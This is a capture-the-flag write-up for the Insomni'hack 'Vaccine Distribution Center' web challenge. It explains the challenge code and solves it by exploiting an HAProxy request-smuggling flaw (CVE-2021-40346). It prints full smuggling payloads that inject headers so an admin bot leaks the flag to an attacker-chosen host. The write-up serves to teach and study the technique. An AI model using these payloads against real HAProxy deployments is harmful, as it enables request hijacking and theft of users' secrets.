

# Vaccine Distribution Center

Let's take a look at the source code. The task consists of 3 part:
Backend, Frontend and VIP.

`Backend` is a simple php-nginx container with the actual challenge code.

`Frontend` is HAProxy container. This is the user-facing service that redirects HTTP requests to `Backend`

`VIP` is the bot that periodically visits the main page of the challenge with admin's credentials set.

To better understand the architecture, take a look at the diagram:
 
 


Let's take a closer look at each of the parts: 

#### Backend

index.php
```html
<script>
        var identity = '<?php print(preg_replace("/[^a-z0-9_]+/i","",$_SERVER['HTTP_X_WHOAMI']));?>';
        <?php
                if($_COOKIE['VIP_CODE'] === getenv("VIP_CODE")) {
                        print("var isvip = true;");
                        print("var vaccine = '" . getenv("FLAG")."';");
                }
                else {
                        print("var isvip = false;");
                        print("var vaccine = 'none';");
                }
        ?>
</script>
...
<script>
        function getScript() {
                var s = document.createElement("script");
                s.setAttribute("src","./script.js");
                document.body.appendChild(s);
        }
        setTimeout("getScript()",10000);
</script>
```

script.js
```js
if (!isvip || Date.now() < new Date("2022-06-06")) {
        //only VIPs get vaccine, and only when we decide
        document.location = 'https://insomnihack.ch/';
}


function getVaccine() {
fetch('http://'+identity+'/?vaccine='+vaccine)
        .then((response) => {
        console.log(response.json());
        });
}

//OK, it's time to give you the vaccine!
setTimeout("getVaccine()",1000);

```

The VIP-bot visits the webpage with the correct cookies set, so `isvip` variable will be set
and `vaccine` variable will be assigned with the value of the flag.

After 10 seconds the script will be loaded that will send the flag to the server specified in the `identity` variable (which takes its value from `X-Whoami` HTTP header),
if the condition:
```
if (!isvip || Date.now() < new Date("2022-06-06")) {
```
is met.

This leads us to two conclusions:
1. We need to force VIP-bot to send the correct value of `X-Whoami` header
2. We need to bypass the JS check (or wait until 2022-06-06, but it's long after the CTF ends :( )


#### VIP

```python
#!/usr/bin/python3
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.chrome.options import Options
import os
import time
import traceback
chrome_options = Options()
chrome_options.headless = True
chrome_options.add_argument('--no-sandbox')


while True:
    try:
        driver = webdriver.Chrome("/chromedriver", options=chrome_options)
        driver.set_page_load_timeout(30)
        driver.get("http://frontend/")
        time.sleep(1)
        driver.add_cookie({"name": "VIP_CODE", "value":os.environ.get("VIP_CODE"),"httpOnly": True})
        driver.get("http://frontend/")
        time.sleep(30)
        driver.close()
    except:
        traceback.print_exc()
```

This looks standard for a client-side web challenge.
However, we don't control the URL the bot visits (it only visits the main page),
so it suggests looking for Cache Poisoning or Request Smuggling vulnerabilities.

#### Backend

This is the HAProxy container that redirects the requests to the `Frontend`.
Two things are worth noticing:

1. The version is 2.0.24, which is not the latest one.
2. A non-standard `http-reuse always` configuration is used, meaning that the connection between `Backend` and `Frontend` is kept open between requests.

### Solution

#### Injecting X-Whoami header
 
With a little bit of googling we find out that this version of HAProxy is vulnerable to request smuggling with CVE-2021-40346.
The vulnerability is described in detail at [https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/](https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/)

By sending the following payload:
```
POST /index.html HTTP/1.1
Host: example.com
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 42

GET / HTTP/1.1
X-Whoami: 1295505720
DUMMY:
``` 
(notice no new line at the end!)
we can make the second request to be stored in a buffer until the next request is made, effectively making it the prefix of the next request.

This means, if the VIP makes a connection and requests the main webpage with a request similar to:
```
GET / HTTP/1.1
Host: frotend
Cookie: VIP_CODE=<secret_code>

```
the actual request that will be forwarded to the backend will be:
```
GET / HTTP/1.1
X-Whoami: 1295505720
DUMMY:GET / HTTP/1.1
Host: frotend
Cookie: VIP_CODE=<secret_code>

```
which solved the first part of the challenge.

#### Bypassing the condition in script.js

After a few hours of looking for some clever JS solution it was clear to me that there is no way to bypass the date check on JS level.

However, it was possible to request only the part of the file with `Range` header (https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Range).

By sending the following header while requesting the script.js file:
```
Range: bytes=152-1023
```
we receive the file starting from position 152, so after the date check.
We can inject it in the same way as we injected `X-Whoami` header in the first part.
The payload will be:
```
POST /index.html HTTP/1.1
Host: example.com
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 52

GET /script.js HTTP/1.1
Range: bytes=152-1023
DUMMY:
```

#### Getting the flag
Now we need to keep sending payloads for injecting `X-Whoami` and `Range` header and hope to win the following race:
1. We poison the backend with first payload
2. The VIP-bot visits the webpage and loads `index.php` with `X-Whoami` header provided by us
3. The VIP-bot waits 10 seconds before loading `script.js`
4. During those 10 seconds we inject the second payload.
5. The VIP-bot loads the script with injected `Range` header, bypasing the date check at the beginning of the file.

If we did the following on the public instance it would leak our exploit to the other teams, so it was helpful to ask the challenge author to spawn the private instance for us.

After a couple of minutes needed to win a race we can read the flag from our server's HTTP logs:
```
INS{5muggl1ng_the_r4nge!}
```